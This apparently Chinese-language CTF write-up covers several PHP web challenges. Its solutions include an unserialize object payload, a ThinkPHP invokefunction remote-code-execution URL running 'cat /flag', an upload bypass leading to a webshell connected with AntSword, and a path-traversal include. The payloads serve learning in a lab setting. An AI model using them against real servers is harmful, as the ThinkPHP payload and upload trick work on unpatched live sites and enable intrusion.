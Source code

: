 # unserialize3

![输入图片说明](image/15fa2711e92745328baee503225f3b4b.png)

需要反序列化一下：O:4:"xctf":2:{s:4:"flag";s:3:"111";}

![输入图片说明](image/cbac6546db5c47f4b863b02b93c4937c.png)

# php_rce

![输入图片说明](image/6b3d1a4fa5ec478581e094813023d4f9.png)

题目提示rce漏洞，测试一下：?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

![输入图片说明](image/e9bd6233b8c64069804df30aacf26322.png)

flag：?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag

![输入图片说明](image/a9100c6644304c3ba470c1e2459fb283.png)

# Web_php_include

![输入图片说明](image/ab6cc18c924c46cb9f813637e26a186e.png)

```csharp
show_source(__FILE__);
show_source()是 PHP 的内置函数，其作用是读取并高亮显示指定文件的源代码
__FILE__是 PHP 的魔术常量，代表当前正在执行的脚本文件的完整路径和文件名。所以这行代码的功能是显示当前 PHP 文件的源代码

echo $_GET['hello'];
$_GET是 PHP 的一个超全局变量，用于获取通过GET请求方法传递的参数
这行代码会输出GET请求中名为hello的参数的值

$page=$_GET['page'];
此代码将GET请求中名为page的参数的值赋给变量$page

while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
strstr()是 PHP 的内置函数，用于查找字符串在另一个字符串中首次出现的位置。若找到，则返回从该位置开始到字符串结尾的部分；若未找到，则返回false
str_replace()也是 PHP 的内置函数，用于将字符串中的指定子字符串替换为另一个字符串
这部分代码运用while循环持续检查$page变量中是否包含php://字符串，若包含则将其替换为空字符串，直至$page中不再包含php://

include($page);
include()是 PHP 的内置函数，用于包含并执行指定的文件
这行代码尝试包含并执行$page变量所指定的文件
```

flag

![输入图片说明](image/1a55c1edceca486c8c6676999121a9b4.png)

![输入图片说明](image/cff4af49609747bbac066324cdd4b990.png)

# upload1

![输入图片说明](image/8270f7f2251f4b7fa94c43909523915b.png)

要jpg和png后缀

![输入图片说明](image/56ad16e09da540a19bacec4846044c68.png)

上传以后修改为php后缀

![输入图片说明](image/781bc662ca66405ab7dce73b3b462d76.png)

用蚁剑连接找到flag

![输入图片说明](image/fb48f4f29fb94419855f84216def4d6c.png)

# warmup

![输入图片说明](image/f5e4e169f3844d2bbea65dc83f89a87f.png)

![输入图片说明](image/127c035126c94d6cae8361905a03f79b.png)

查看一下/source.php

![输入图片说明](image/aa90407f143f4c999ad97f0003785bbb.png)

看一下/hint.php

![输入图片说明](image/0f969d3eb34040a290cce8a3664fbb0c.png)

/?file=hint.php?/../../../../ffffllllaaaagggg

![输入图片说明](image/a6cdeac1bd3f420ebe21fd50cca02c75.png)
